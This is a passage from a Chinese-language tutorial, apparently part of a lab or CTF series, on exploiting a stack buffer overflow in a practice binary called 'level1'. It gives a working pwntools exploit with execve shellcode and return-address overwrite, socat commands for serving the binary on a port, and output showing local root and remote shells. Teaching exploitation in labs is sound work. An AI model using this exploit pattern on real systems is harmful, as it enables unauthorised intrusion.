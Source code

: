 OK，现在`溢出点`，`shellcode`和`返回值地址`都有了，可以开始写exp了。写exp的话，我强烈推荐`pwntools这`个工具，因为它可以非常方便的做到本地调试和远程攻击的转换。本地测试成功后只需要简单的修改一条语句就可以马上进行远程攻击。

``` python
p = process('./level1')  #本地测试
p = remote('127.0.0.1',10001)  #远程攻击
```

最终本地测试代码如下：

``` python
#!/usr/bin/env python
from pwn import *

p = process('./level1') 
ret = 0xffffce70

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"

# p32(ret) == struct.pack("<I",ret) 
#对ret进行编码，将地址转换成内存中的二进制存储形式
payload = shellcode + 'A' * (140 - len(shellcode)) + p32(ret)

p.send(payload) #发送payload

p.interactive()  #开启交互shell
```

执行exp：

``` bash
$ python level1_exp.py 
[+] Starting local process './level1': pid 2633
[*] Switching to interactive mode
$ whoami
root
$  
```

接下来我们把这个目标程序作为一个`服务绑定`到服务器的某个`端口`上，这里我们可以使用`socat`这个工具来完成，命令如下：

``` bash
socat TCP4-LISTEN:10001,fork EXEC:./level1
```

随后这个程序的IO就被重定向到10001这个端口上了，并且可以使用 `nc 127.0.0.1 10001`来访问我们的目标程序服务了。

因为现在目标程序是跑在`socat的环境`中，exp脚本除了要把p = process('./level1')换成p = remote('127.0.0.1',10001) 之外，ret的地址还会发生改变。解决方法还是采用生成`core dump`的方案，然后用gdb调试core文件获取返回地址。然后我们就可以使用exp进行`远程溢出`啦！

``` bash
$ python level1_exp.py 
[+] Opening connection to 127.0.0.1 on port 10001: Done
[*] Switching to interactive mode
$ whoami
buffer
$  
```
